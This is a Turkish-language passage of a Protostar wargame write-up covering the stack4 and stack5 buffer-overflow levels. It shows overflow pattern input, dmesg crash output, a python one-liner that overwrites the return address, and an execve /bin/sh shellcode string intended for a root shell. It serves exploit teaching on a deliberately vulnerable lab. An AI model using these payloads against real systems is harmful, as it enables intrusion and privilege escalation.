 ```bash
user@protostar:/opt/protostar/bin$ ./stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Segmentation fault
```
Eee? Segmentation fault verdi ama patlayan adresi yazmadı, bu adresi öğrenmek için [dmesg](https://en.wikipedia.org/wiki/Dmesg) komutunu kullanabilirsiniz.
```bash
user@protostar:/opt/protostar/bin$ dmesg | tail -5
[ 3992.532519] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: RX
[ 8341.144247] stack3[1695]: segfault at 42424242 ip 42424242 sp bffff63c error 4
[ 8732.012231] stack3[1708]: segfault at 3432785c ip 3432785c sp bffff63c error 4
[ 8881.672222] stack3[1712]: segfault at 3432785c ip 3432785c sp bffff63c error 4
[ 9862.991956] stack4[1737]: segfault at 63413563 ip 63413563 sp bffff6b0 error 4
```
Son hataya baktığımzıda stack4 de `63413563` adresinde patlamış. Bunu patterni oluşturduğumuz yerde aratırsak bize 76 sonucunu veriyor.(Bu adres little endian, pattern offset finderlar genelde bunu kendisi çevirip arıyor yani sizin çevirmenize gerek kalmıyor) Yani 76 karakter yazdıktan sonra biz return adresine yazıyomuşuz. O zaman 76 tane 'A' verip ardından adresi yazarsak çalışması gerekir.
```bash
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*76 + '\xf4\x83\x04\x08'") | ./stack4
code flow successfully changed
Segmentation fault
```
İstediğimzi mesajı başarılı bir şekilde yazdırmış olduk. Sondaki seg faultun sebebi ise bizim return adresini bozmamız sebebiyle programın düzgün bir şekilde exit yapamamasından dolayı diyebiliriz.
## Stack 5
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Bu sefer hiçbir şey yok??? Burada amacımız stack içerisine shellcode yazıp bu shellcodeu kullanarak root yetkisi ile shell almak. Bunu yaparkan 2 farklı şekilde deneyebilirsiniz, ya return adresine yazana kadar doldurduğumuz bufferın içine shellcode ekler ve oraya zıplayacak şekilde return adresi yazarız ya da shellcode'umuzu return adresinin de ilerisine(yani daha yüksek adresli tarafa) yazarak oraya zıplayıp çalıştırabiliriz. Ben burada buffer içerisine yazmayı deneyeceğim. Önce bakalım kaç byte doldurmamız gerekiyor.
```bash
user@protostar:/opt/protostar/bin$ ./stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Segmentation fault

user@protostar:/opt/protostar/bin$ dmesg | tail -1
[12631.587253] stack5[1767]: segfault at 63413563 ip 63413563 sp bffff6b0 error 4
```
`63413563` değerinin ofseti 76. Biz bu 76 byte içerisine zararlı kodumuzu yerleştireceğiz. ben bu denememizde [şu](http://shell-storm.org/shellcode/files/shellcode-811.php) kodu kullanacağım:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```